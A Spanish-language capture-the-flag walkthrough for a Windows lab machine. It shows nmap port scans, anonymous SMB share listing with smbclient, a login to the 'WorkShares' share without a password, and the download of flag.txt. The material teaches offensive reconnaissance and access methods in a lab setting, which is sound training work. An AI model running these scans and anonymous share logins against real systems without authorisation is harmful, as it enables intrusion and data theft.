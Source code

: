 ## Datos principales

* #Enumeracion de puertos
* Servicio #smb
* #Acceso sin credenciales / Credenciales por defecto
*  SO : #Windows

## Enumeración de puertos

Para  empezar el escaneo usamos la herramienta Nmap, en nuestra fase de descubrimiento , como se puede apreciar tenemos los siguientes puertos abiertos:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.69.135
```

Puerto abierto:
	 *135* -->  msrpc
	 *139* -- > netbios-ssn
	 *445* --> **microsoft-ds**
	 *47001* --> winrm
	 *49664* --> ???
	 *49665* --> ???
	 *49666* --> ???
	 *49667* --> ???
	 *49668* --> ???
	 *49669* --> ???

Vamos a hacer un escaneo más exhaustivo a los puertos encontrados para ver si podemos sacar más información con nmap y con la opción *-sCV* para que use los scripts y así podamos extraer más información.

```bash
nmap -p 135,139,445,47001,49664,49665,49666,49667,49668,49669 -sCV 10.129.69.135
```

Nos vamos a centrar en el puerto 445 que se encuentra abierto con el servicio de Microsoft-ds.

Vamos a intentar conectarnos al servicio smb

```bash
smbclient -L //<ip>
smbclient -L //10.129.69.135
```

El parámetro "-L" en smbclient se utiliza para listar los recursos compartidos disponibles en un servidor que utiliza el protocolo SMB (Server Message Block). Cuando se utiliza el comando "smbclient -L", se establece una conexión con el servidor SMB especificado y se solicita una lista de los recursos compartidos disponibles en ese servidor.

La sintaxis completa del comando es la siguiente:

```bash
smbclient -L <nombre_del_servidor> [-U <nombre_de_usuario>%<contraseña>]
```

Donde:

-   `<nombre_del_servidor>` es el nombre o la dirección IP del servidor que se va a consultar.
-   `<nombre_de_usuario>` y `<contraseña>` son las credenciales de inicio de sesión que se utilizarán para establecer la conexión con el servidor (opcional).

Si se omite el nombre de usuario y la contraseña, se utilizará el usuario y la contraseña actuales del sistema operativo en el que se está ejecutando el comando. Si se proporcionan credenciales de inicio de sesión, se utilizarán para establecer la conexión con el servidor SMB.

vemos que nos pide una contraseña pero le damos `Enter` y nos lista los grupos de trabajo existentes , los que tiene un '$' no podemos acceder a ellos pero vemos que existe workShare por lo tanto vamos a intentar entrar.

```bash
   Sharename   type    Comment
   ---------   ----    -------
   ADMIN$      Disk    Remote Admin
   C$          Disk    Default share
   IPC$        IPC     Remote IPC
   WorkShares  Disk
```

Para entrar usamos el siguiente comando:

```bash
smbclient \\\\<ip>\\WorkShares
smbclient \\\\10.129.125.36\\WorkShares
```

De esta manera podemos acceder con éxito y sin contraseña, nos aparecera una terminal tal qeu asi:

```console
Password for [WORKGROUP\root]
smb:\>
```

Para ver los directorios que podemos acceder usamos *ls* y podemos ver que hay dos directorios con archivos que tambien podemos usar *cd* para acceder al directorio

```console
Password for [WORKGROUP\root]
smb:\> ls
	.
	..
	Amy.J
	James.P

```

Para poder descargar la flag y verla en nuestro dispositivo lo hacemos con el siguiente comando: 

```console
smb:\James.P\> get flag.txt 
```
